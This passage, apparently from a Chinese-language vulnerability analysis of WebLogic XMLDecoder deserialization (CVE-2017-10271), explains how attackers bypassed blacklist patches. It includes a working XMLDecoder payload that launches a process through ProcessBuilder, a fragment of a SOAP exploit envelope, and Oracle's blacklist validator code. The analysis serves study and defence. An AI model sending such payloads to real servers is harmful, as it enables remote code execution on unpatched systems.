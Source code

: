 ``` xml
        <void method="start"/></void>
    </java>
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```

同时也出现了用new和method标签的利用。

``` xml
<java version="1.4.0" class="java.beans.XMLDecoder">
    <new class="java.lang.ProcessBuilder">
        <string>calc</string>
        <method name="start" />
    </new>
</java>
```

为什么仅仅替换一下void标签就可以了呢？因为VoidElementHandler继承自ObjectElementHandler！不可以使用object指定class，可以用void标签指定class。

``` java
final class VoidElementHandler extends ObjectElementHandler {
    VoidElementHandler() {
    }

    protected boolean isArgument() {
        return false;
    }
}
```

### 第二次黑名单补丁

显然这次的黑名单修补非常地不成功，Oracle痛定思痛，决定大刀阔斧再来一大波黑名单，CVE-2017-10271的补丁又一次更新了validate。object、new、method、void都上了黑名单，array标签后面只允许跟byte类型。
``` java
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
```